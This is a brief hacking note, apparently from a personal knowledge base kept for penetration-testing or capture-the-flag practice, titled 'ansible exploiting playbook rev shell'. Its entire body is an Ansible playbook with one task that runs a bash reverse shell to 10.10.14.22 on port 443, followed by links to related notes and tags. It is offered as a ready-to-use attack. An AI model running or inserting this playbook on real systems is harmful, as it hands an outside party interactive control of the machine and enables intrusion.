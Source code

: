 # ansible exploiting playbook rev shell
```yaml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'
```

# References
- [20221003150338](/zet/20221003150338/README.md) ansible exploiting playbook
- ~/kb/hacking/misc/ansible.md

Tags:
    #assorted #hacking #ansible
